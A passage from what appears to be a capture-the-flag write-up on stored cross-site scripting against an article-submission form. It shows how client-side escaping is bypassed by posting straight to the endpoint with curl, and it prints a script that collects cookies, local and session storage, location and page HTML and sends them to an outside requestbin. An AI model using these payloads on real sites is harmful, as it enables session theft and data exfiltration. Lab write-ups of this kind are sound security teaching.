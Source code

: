 ```
```

So let's try pasting this code into the rich-editor and then sending our "article". Nothing happened... Let's copy our request as `curl` using browser's devtools. What we get (data decoded):
```
curl 'http://web.kazet.cc:31339/send_article' \
  -H <some boring headers...>
  .
  .
  .
  --data-raw '<p>&lt;script&gt;</p><p>&nbsp;+&nbsp;+//+Do+something+as+editor</p><p>&nbsp;+&nbsp;+/*+...+*/</p><p><br>&nbsp;</p><p>&nbsp;+&nbsp;+//+Store+the+results</p><p>&nbsp;+&nbsp;+const+data+=+{+content:+"Hello+it's+editor!!!"+};</p><p><br>&nbsp;</p><p>&nbsp;+&nbsp;+//+Send+the+results+to+our+requestbin</p><p>&nbsp;+&nbsp;+fetch('https://eozy3pwhxz589s.m.pipedream.net',+{</p><p>&nbsp;+&nbsp;+&nbsp;+&nbsp;+method:+'POST',</p><p>&nbsp;+&nbsp;+&nbsp;+&nbsp;+headers:+{</p><p>&nbsp;+&nbsp;+&nbsp;+&nbsp;+&nbsp;+&nbsp;+'Content-Type':+'application/json',</p><p>&nbsp;+&nbsp;+&nbsp;+&nbsp;+},</p><p>&nbsp;+&nbsp;+&nbsp;+&nbsp;+body:+JSON.stringify(data),</p><p>&nbsp;+&nbsp;+});</p><p>&lt;/script&gt;</p>' \
  --compressed \
  --insecure
```

So `<script>` is being translated to `&lt;script&gt;`. No worries, let's just reach this endpoint directly from terminal using `curl`. This way we won't let any client-side precautions get in our way. Simply encode the content and provide it as an argument to `--data-raw` curl argument.  
And now it works! We received hello from editor.

Let's retrieve some data that may interest us with a following script:
```
<script>
    // Retrieve cookies, storage, location and HTML source
    const data = {
        cookies: document.cookie,
        lStorage: window.localStorage,
        sStorage: window.sessionStorage,
        location: window.location,
        source: document.documentElement.innerHTML
    }; 

    // Send the results to our requestbin
    fetch('https://eozy3pwhxz589s.m.pipedream.net', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify(data),
    });
</script>
```

No luck in retrieving session cookie. `cookies`, `lStorage` and `sStorage` are empty. The session cookie must be set using `HttpOnly` flag, so it's not accessible from JS.  
